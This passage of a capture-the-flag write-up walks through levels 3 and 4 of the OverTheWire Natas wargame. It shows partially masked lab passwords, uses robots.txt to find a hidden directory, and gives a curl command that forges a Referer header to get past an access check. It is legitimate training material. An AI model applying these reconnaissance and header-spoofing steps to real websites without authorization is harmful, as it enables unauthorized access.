 <br>

Connect to the next level on `http://natas3.natas.labs.overthewire.org/` with :

- Username : ``natas3``
- Password : ``G6ctbMJ5Nb---------xGHhQ7I6W8Q``

<br>

## Level 3

> There is nothing on this page.

<br>

As always, check the source code. We have this comment : *No more information leaks!! Not even Google will find it this time...*

It is a hint. Look at ``robots.txt`` file : ``http://natas3.natas.labs.overthewire.org/robots.txt`` 

There is a ``/s3cr3t/`` directory. Go in and we have a ``users.txt`` file.

Read its content on : ``http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt``

<br>

Connect to the next level on `http://natas4.natas.labs.overthewire.org/` with :

- Username : ``natas4``
- Password : ``tKOcJIbzM4----------4434fGZQm``

<br>

## Level 4

> Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"

<br>

To solve the challenge, we could use **cURL** to modify the request. Add a ``Referer`` header and send it : 
```bash
curl 'http://natas4.natas.labs.overthewire.org/' -u "natas4:tKOcJIbzM4---------n5Zr4434fGZQm" --header "Referer: http://natas5.natas.labs.overthewire.org/"
```

*``-u`` : Basic authentification*

Look at the response : 
```html
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is Z0Nsr----------eqFfcRN82Au2oD
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
